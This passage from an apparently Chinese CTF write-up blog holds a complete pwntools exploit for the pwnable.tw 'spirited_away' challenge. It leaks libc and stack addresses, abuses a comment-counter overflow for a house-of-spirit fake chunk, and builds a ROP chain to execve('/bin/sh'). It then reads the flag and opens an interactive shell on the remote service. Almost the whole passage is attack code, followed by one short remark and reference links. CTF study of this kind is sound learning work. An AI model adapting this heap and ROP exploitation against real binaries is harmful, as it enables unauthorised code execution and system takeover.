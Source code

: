 ```python
	p.sendlineafter("Would you like to leave another comment? <y/n>: ","y")
def sall_10(reason='nier',name='nier',age=1,comment="nier"):

	sage(age)
	sr(reason)

	p.sendlineafter("Would you like to leave another comment? <y/n>: ","y")
#p=process("./spirited_away",env={"LD_PRELOAD":'./libc'})
p=remote("chall.pwnable.tw",10204)
#context.log_level='debug'
libc=ELF("./libc")

raw("A"*0x18)
p.readuntil("A"*0x18)
libc.address = u32(p.recv(4))-libc.sym['_IO_file_sync']-7
p.recvuntil("comment? <y/n>: ")
p.send("y")


base=libc.address

raw("A"*56)
p.readuntil('A'*56)
stack=u32(p.read(4))
p.sendlineafter("<y/n>: ","y")

log.warning(hex(base))
log.warning(hex(stack))
for x in range(8):
	sall()

for x in range(90):
	sall_10()
for x in range(4):
	sall()


sname("yy")
sage(1)
sr(p32(0x41)*20)
sc("A"*0x50+p32(1)+p32(0xffffcff8-0xffffd048+stack-0x18))
p.sendlineafter("<y/n>: ","y")
#libc=ELF("./spirited_away").libc

libc.address=base
sname("/bin/sh".ljust(4*18,'\x00')+p32(0xdeadbeef)+p32(libc.symbols['execve'])+p32(0xdeadbeef)+p32(0xffffcff8-0xffffd048+stack-0x18)+p32(0)+p32(0))
sage(1)
sr("no")
sc("no")
#gdb.attach(p,'b *0x8048891')
p.sendlineafter("<y/n>: ","n")
p.sendline("cat /home/spirited_away/flag")
p.interactive("nier>>")
```
house of spirit 应该是从这里来吧...


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert